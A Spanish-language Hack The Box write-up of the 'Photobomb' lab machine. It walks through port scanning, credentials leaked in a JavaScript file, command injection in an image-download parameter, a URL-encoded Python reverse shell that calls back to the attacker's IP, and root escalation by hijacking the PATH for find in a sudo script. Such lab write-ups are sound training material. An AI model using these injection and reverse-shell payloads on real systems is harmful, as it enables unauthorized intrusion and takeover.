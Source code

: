 ```yaml
---
layout: single
title: Photobomp - Hack The Box
date: 2023-02-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-photobomb/photobomp.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - linux
---
```


Write Up de la máquina Photobomp, máquina Linux!

## Linux / 10.10.10.92

![](/assets/images/htb-writeup-photobomb/photobomp.png)

### Técnicas
------------------
- Virtual Hosting
- Web enumeration 
- Information Leakage - Credentials in Javascript File
- Abusing Image Download Utility (Command Injection) [RCE]
- Abusing Sudoers privilege + PATH Hijacking (find command)

### Detailed steps
------------------

### Nmap

De primeras lanzaremos un nmap a la máquina para ver que puertos están abiertos.


```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.182 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-16 16:18 CET
Initiating SYN Stealth Scan at 16:18
Scanning 10.10.11.182 [65535 ports]
Discovered open port 80/tcp on 10.10.11.182
Discovered open port 22/tcp on 10.10.11.182
Completed SYN Stealth Scan at 16:19, 10.46s elapsed (65535 total ports)
Nmap scan report for 10.10.11.182
Host is up, received user-set (0.035s latency).
Scanned at 2023-02-16 16:18:56 CET for 10s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.59 seconds
           Raw packets sent: 65865 (2.898MB) | Rcvd: 65640 (2.626MB)

```
Sabiendo ya los puertos que están abiertos, haremos un escaneo más exhaustivo para detectar el sevicio y la versión que corre através de esos puertos.

```
nmap -sCV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-16 16:27 CET
Nmap scan report for 10.10.11.182
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds

```
Antes de comenzar con la fase de intrusión añadiremos al `/etc/hosts` la siguiente linea

```
cat /etc/hosts
# Host addresses
127.0.0.1  localhost
127.0.1.1  p4rr0t
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
10.10.11.182 photobomb.htb

```
### Intrusión

Nos dirigimos a la web para visualizar la web.

![paginaWeb](/assets/images/htb-writeup-photobomb/webServer.png)

Vamos a ojear el codigo fuente, a ver si están leakeando algún dato que nos pueda ser útil. Pulsaremos `ctrl+u`

![photobompjs](/assets/images/htb-writeup-photobomb/photobompjs.png)

Podemos comprobar que hay un `.js` vamos a ver que hay dentro de este fichero...

![photobombleakedjs](/assets/images/htb-writeup-photobomb/photobompleakedjs.png)

Podemos observar que están leakeadas tanto el usuario `pH0t0` como la password `b0Mb!`, credenciales las cuales podemos probar sobre el panel de autenticación de la web.

![downloadPhoto](/assets/images/htb-writeup-photobomb/downloadPhoto.png)

Credenciales válidas, visualizamos ahora una web donde nos permite descargar imágenes. Antes de nada, vamos a abrir `burpsuite` para comprobar que petición se hace por detrás.

### Injeccion de comandos

![Burpsuite](/assets/images/htb-writeup-photobomb/Burpsuite.png)

Vamos intentar injectar comandos en servidor en el campo `filetype`

`photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg&filetype=jpg;curl+10.10.14.8/example&dimensions=3000x2000`

Vamos a crear un servidor http con `python` que escuche en el puerto `80`

![httpPython](/assets/images/htb-writeup-photobomb/httpPython.png)

Vemos que se ha realizado la petición correctamente, por lo que es vulnerable a injección de comandos, vamos a tratar de crearnos una `rev shell`

### Ejecucion remota de comandos.
Vamos a injectar un payload, con una `rev shell` como esté que pondré abajo, ya que, he probado varios con `bash` y no funciona, por lo que lo haré con `Python`

`export%20RHOST%3D%2210.10.XX.XX%22%3Bexport%20RPORT%3D443%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27`

Lo mandaremos URL encodeado

Nos ponemos en escucha por el puerto `443`

![ncListen](/assets/images/htb-writeup-photobomb/paDentro.png)

Ya estamos dentro de la máquina! Vamos a realizar un tratamiento de la tty

![tratamientoTty](/assets/images/htb-writeup-photobomb/tratamientoTty.png)

Realizaremos lo siguiente, `python3 -c 'import pty;pty.spawn("/bin/bash")'`. Pulsaremos `ctrl+z`
Acto seguido con el comando `stty raw -echo; fg` resetearemos la terminal con un `reset xterm`

![IntrusionOK](/assets/images/htb-writeup-photobomb/IntrusionOK.png)

Ya podemos visualizar la primera flag!

### Escalada de privilegios

Vamos con la escalada de privilegios, que en este caso es bastante sencilla.

Observamos con un `sudo -l` los privilegios que tenemos sobre la máquina con el usuario `wizard`

```
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 


```
Podemos ejecutar como root el fichero `/opt/cleanup.sh`

Vamos ha mirar el contenido del script...

```
wizard@photobomb:/opt$ cat cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:/opt$

```
Podemos hacer un PATH Hijacking del binario `find`, el script toma el fichero `photobomb.log` y lo mueve a `photobomb.log.old` y luego usa el truncate para borrar el contenido de `photobomb.log`.
Al no usar rutas absolutas podemos aprovecharnos del binario `find`

Vamos a crear un fichero con nombre `find` con dentro un `/bin/bash` en la ruta `/dev/shm` por ejemplo...

```

wizard@photobomb:/dev/shm# cat find 
#!/bin/bash

/bin/bash
wizard@photobomb:/dev/shm$
wizard@photobomb:/dev/shm$ ll
total 4
drwxrwxrwt  3 root   root     80 Feb 16 17:19 ./
drwxr-xr-x 18 root   root   3960 Feb 16 10:55 ../
-rwxr-xr-x  1 wizard wizard   23 Feb 16 17:19 find*
drwx------  4 root   root     80 Feb 16 10:55 multipath/
wizard@photobomb:/dev/shm$ chmod +x find
wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb#

```
Ya finalmente podremos visualizar la segunda flag de `root`. GG WP!

![rootFlag](/assets/images/htb-writeup-photobomb/rootFlag.png)


Espero a verlo explicado lo mejor posible, cualquier error o sugerencia hacermelo saber! Muchas gracias por leer el write up!

Nos vemos en el siguiente Write Up
